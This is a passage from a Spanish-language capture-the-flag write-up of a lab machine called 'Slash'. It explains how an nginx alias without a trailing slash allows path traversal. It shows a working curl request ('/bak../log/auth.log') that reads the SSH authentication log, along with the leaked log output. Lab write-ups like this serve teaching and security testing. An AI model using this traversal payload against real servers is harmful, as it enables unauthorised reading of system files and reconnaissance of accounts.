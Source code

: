 
```bash
location /bak
```
Para que el alias funciones correctamente este debe estar encerrado con dos `/` si no puede causar fallas de entre las cuales podemos encontrar un `Path Traversal`. Podemos leer más de esto en el siguiente <a href=" https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/">artículo</a>. 

<img class="img" src="/assets/img/machines/Slash/2.png" width="1000">

En el artículo nos explica que para lograr el Path Traversal tenemos que aumentar .. en la ruta `/bak`. Lo primero que intente es encontrar el archivo /etc/passwd, pero lamentablemente esta vulnerabilidad solo nos permite saltarnos un directorio hacia arriba, como es un alias hacia `/var/backups/` esto quiere decir que solo tenemos acceso a los archivos y directorios de la ruta `/var` del sistema. Por lo cual lo siguiente que trate de ver es el archivo de logs del ssh debido a que es el único otro servicio activo.


```bash
❯ curl -s -X GET http://10.0.2.136/bak../log/auth.log

Aug 18 14:26:22 slash sshd[600]: Accepted password for omar from 192.168.1.29 port 43394 ssh2
Aug 18 14:26:22 slash sshd[600]: pam_unix(sshd:session): session opened for user omar(uid=1000) by (uid=0)
Aug 18 14:26:22 slash systemd-logind[298]: New session 6 of user omar.
Aug 18 14:26:31 slash sshd[626]: Received disconnect from 192.168.1.29 port 43394:11: disconnected by user
Aug 18 14:26:31 slash sshd[626]: Disconnected from user omar 192.168.1.29 port 43394
Aug 18 14:26:31 slash sshd[600]: pam_unix(sshd:session): session closed for user omar
Aug 18 14:26:31 slash systemd-logind[298]: Session 6 logged out. Waiting for processes to exit.
Aug 18 14:26:31 slash systemd-logind[298]: Removed session 6.
Aug 18 14:26:46 slash sshd[700]: Accepted password for omar from 192.168.1.29 port 59660 ssh2
Aug 18 14:26:46 slash sshd[700]: pam_unix(sshd:session): session opened for user omar(uid=1000) by (uid=0)
Aug 18 14:26:46 slash systemd-logind[298]: New session 7 of user omar.
Aug 18 14:26:50 slash sshd[708]: Received disconnect from 192.168.1.29 port 59660:11: disconnected by user
Aug 18 14:26:50 slash sshd[708]: Disconnected from user omar 192.168.1.29 port 59660
Aug 18 14:26:50 slash sshd[700]: pam_unix(sshd:session): session closed for user omar
Aug 18 14:26:50 slash systemd-logind[298]: Session 7 logged out. Waiting for processes to exit.
Aug 18 14:26:50 slash systemd-logind[298]: Removed session 7.
Aug 18 14:27:12 slash CRON[332]: pam_unix(cron:session): session opened for user root(uid=0) by (uid=0)
Aug 18 14:27:12 slash CRON[332]: pam_unix(cron:session): session closed for user root
Aug 18 14:27:12 slash sshd[373]: Server listening on 0.0.0.0 port 22.
Aug 18 14:27:12 slash sshd[373]: Server listening on :: port 22.
```